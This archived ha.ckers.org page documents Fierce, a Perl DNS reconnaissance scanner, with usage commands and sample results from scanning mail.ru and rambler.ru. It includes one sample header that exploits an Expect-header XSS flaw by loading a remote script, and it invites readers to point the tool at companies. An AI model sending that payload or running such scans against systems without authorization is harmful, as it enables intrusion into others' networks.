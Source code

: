 [![ha.ckers.org security
lab](http://ha.ckers.org/images/84844372/rsnake/hackers.jpg)](http://ha.ckers.org/ "ha.ckers.org security lab")\

[Fierce Domain Scan](http://ha.ckers.org/fierce/)
-------------------------------------------------

\
![Fierce domain scanner](http://ha.ckers.org/fierce/fiercesmall.jpg)

Written by [RSnake](http://ha.ckers.org/blog/about/) with input from
[id](http://ha.ckers.org/blog/about/),
[Vacuum](http://winfingerprint.com/) and [Robert E
Lee](http://www.dyadsecurity.com). A special thanks to IceShaman to
porting it to use multi-threading.

Fierce has had a lot of publicity over the years. But none so fun as
seen on [Scorpion](http://youtu.be/dU_hJscvdXU#t=2m3s) - a new show on
CBS.

[![Fierce on
Scorpion](http://ha.ckers.org/images/scorpion-fierce.jpg)](http://ha.ckers.org/images/scorpion-fierce.jpg)

Screnshot from Scorpion

Fierce domain scan was born out of personal frustration after performing
a web application security audit. It is traditionally very difficult to
discover large swaths of a corporate network that is non-contiguous.
It's terribly easy to run a scanner against an IP range, but if the IP
ranges are nowhere near one another you can miss huge chunks of
networks.

First what Fierce is not. Fierce is not an IP scanner, it is not a DDoS
tool, it is not designed to scan the whole internet or perform any
un-targeted attacks. It is meant specifically to locate likely targets
both inside and outside a corporate network. Only those targets are
listed (unless the -nopattern switch is used). No exploitation is
performed (unless you do something intentionally malicious with the
-connect switch). Fierce is a reconnaissance tool. Fierce is a PERL
script that quickly scans domains (usually in just a few minutes,
assuming no network lag) using several tactics.

First it queries your DNS for the DNS servers of the target. It then
switches to using the target's DNS server (you can use a different one
if you want using the -dnsserver switch but this can cause problems if
the server you use won't tell you information about other people's sites
and of course you won't find much relevant internal address space).
Fierce then attempts to dump the SOA records for the domain in the very
slim hope that the DNS server that your target uses may be
misconfigured. Once that fails (because it almost always will) it
attempts to "guess" names that are common amongst a lot of different
companies. Don't ask me where I got the list, it's just a list of names
that id and I have seen all over the place. I thought about adding a
dictionary to this, but I think that would take a lot longer, and given
that very few of the words are dictionary words I don't think this would
add a lot of value.

Next, if it finds anything on any IP address it will scan up and down a
set amount (default 5 but you can expand it with -traverse or increase
it to the entire subnet with -wide) looking for anything else with the
same domain name in it using reverse lookups. If it finds anything on
any of those it will recursively scan until it doesn't find any more. In
this way it ends up looping a lot, and the bigger the domain is the more
you get back. The reason Fierce automatically switches to using the
target's DNS server is so that it can probe the Intranet (RFC1918) of
the target, assuming the target uses a single DNS server for both their
Intranet and external sites.

I also added a random call to something that should fail to test for
wildcard DNS. If it's found, the wildcard is discarded to reduce
erroneous results. That doesn't speed up the scan because it still needs
to check to see if the test resolves back to IP address that the
wildcard is pointing to. However it does reduce false positives.

Also, I've added a "search" option that allows you to find other
non-related domain names. For example, let's say my target's domain is
widget.com but I know they have email addresses like
soandso@widgetcompany.com and own another company called
nutsandbolts.com I can add search queries. This won't scan for those
domains, but if those names pop up, it won't ignore them. Fierce will
report on anything inside the search pattern as long as it matches. If
you want everything I guess you could put a,b,c,...,x,y,z but I'll
probably make something in the future to allow for scanning/reporting
the entire C block once anything is found in it that matches the DNS
string. Here's the syntax:

**perl fierce.pl -dns widget.com -search widgetcompany,nutsandbolts**

I also realized it can be a little bad about finding everything in a
class C if the target used non-contiguous blocks within the class C. To
deal with that I built in a function to allow a scan (of only C blocks).
This is also really useful for scanning intranets if the DNS is poorly
configured. I might expand on this later.

**perl fierce.pl -range 10.10.10.0-255 -dnsserver ns1.example.com**

As an alternative, you can use the -wide switch which does a wide path
of reverse lookups after finding any C names that match your query in
the C block. This provides a lot more information but is a lot more
noisy.

**perl fierce.pl -dns example.com -wide -file output.txt**

Finally, for the web application security folks I added a command to
connect to any http servers on port 80 and perform whatever action you
put into a configuration file. This is really noisy and really slow
(especially on large networks), so I wouldn't recommend trying it unless
you have a few hours with nothing better to do, unless you know there
are only a handful of machines or have already ran this without the
connect scan turned on.

**perl fierce.pl -dns example.com -connect headers.txt -fulloutput -file
output.txt**

Here's what a sample header file might look like. The sample file below
is attempting to exploit the [Expect cross site scripting
vulnerability](http://ha.ckers.org/blog/20060731/expect-header-injection-via-flash/):

GET / HTTP/1.0 User-Agent: Mozilla/5.0 Host: Expect: \<script
src=http://ha.ckers.org/xss.js\>\</script\>

Fierce also has wordlist support so that you can supply your own
dictionary using the -wordlist keyword. Since the brute force does rely
on matching at least a few internal targets, this could be helpful if
you know that the naming convention has to do with a certain non-obvious
naming convention or uses another language, etc.

**perl fierce.pl -dns example.com -wordlist dictionary.txt -file
output.txt**

Not convinced? Prior to running the scan I had never been to either
mail.ru or rambler.ru (a few of the top Alexa sites in Russia). Since I
don't read Russian, performing an audit against them is far more
difficult. Here's some sample output from the two. In the first example
you can see that mail.ru has a non-contiguous address for it's
mobile.mail.ru than it does for the rest of the site. That would have
been very difficult to locate with any other scanner. In the rambler.ru
example you can see the RFC1918 space 10.\* pop up:

-   [mail.ru](http://ha.ckers.org/fierce/mail.ru) - 418 entries and 303
    hostnames found.
-   [rambler.ru](http://ha.ckers.org/fierce/rambler.ru) - 472 entries
    and 458 hostnames found.

Trust me, we've found far more interesting sites than these two in our
tests, but I don't want to disparage any companies for their mistakes.
I'm sure you can think of a few companies to test this against. The
results can be pretty amazing. If you don't get many results, that could
be one of three things, 1) you aren't scanning their corporate domain,
you are only scanning their external domain which they only have one or
two machines on 2) it's a very small company or 3) you typo'd the domain
name (I haven't built any checks to make sure the domain you entered is
valid).

Requirements: This is a PERL program requiring the PERL interpreter with
the modules [Net::DNS](http://www.net-dns.org/) and
[Net::hostent](http://perldoc.perl.org/Net/hostent.html). You can
install modules using CPAN:

> perl -MCPAN -e 'install Net::DNS'\
>  perl -MCPAN -e 'install Net::hostent'

![](http://ha.ckers.org/images/microsoft_icon.gif)**Windows users**: You
can use Fierce under Windows if you use [Cygwin](http://www.cygwin.com/)
with PERL and the above two modules installed. I have not tested this
using ActivePerl in Windows, so I would recommend Cygwin until
ActivePerl can be thoroughly tested. I am/was working on a win32 version
of Fierce, but have put the project on hold. If anyone is interested in
picking up where I left off, drop [me](http://ha.ckers.org/blog/about/)
a line.

Version: Fierce is currently at version 0.9.9 - Beta 03/24/2007

Download: [fierce.pl](http://ha.ckers.org/fierce/fierce.pl)

Download: [hosts.txt](http://ha.ckers.org/fierce/hosts.txt)

(Thanks to Robert E Lee for the help with this and to Michael Thumann's
[DNSDigger](http://www.ernw.de/en/eng_security_tools.html) wordlist).

Getting started: **perl fierce.pl -help**

This may some bugs in it. Also this can be a noisy scanner, but in the
tests I've performed it's exceptionally effective at finding
non-contiguous IP blocks and new attack points. This should be
considered a pre-cursor to [nmap](http://insecure.org/nmap/),
[unicornscan](http://www.unicornscan.org/) or
[nessus](http://www.nessus.org/) as it gives you enough information to
begin a much more thorough scan with one of those other tools. Also, it
can point out DNS entries for hosts that are no longer up or have not
yet been put into production. Please use Fierce with care and at your
own risk.

\
\

Back to <http://ha.ckers.org/>

* * * * *

\

ha.ckers.org security lab is © 2001-2014\
[Entries (RSS)](http://ha.ckers.org/blog/feed/) and [Comments
(RSS)](http://ha.ckers.org/blog/comments/feed/).

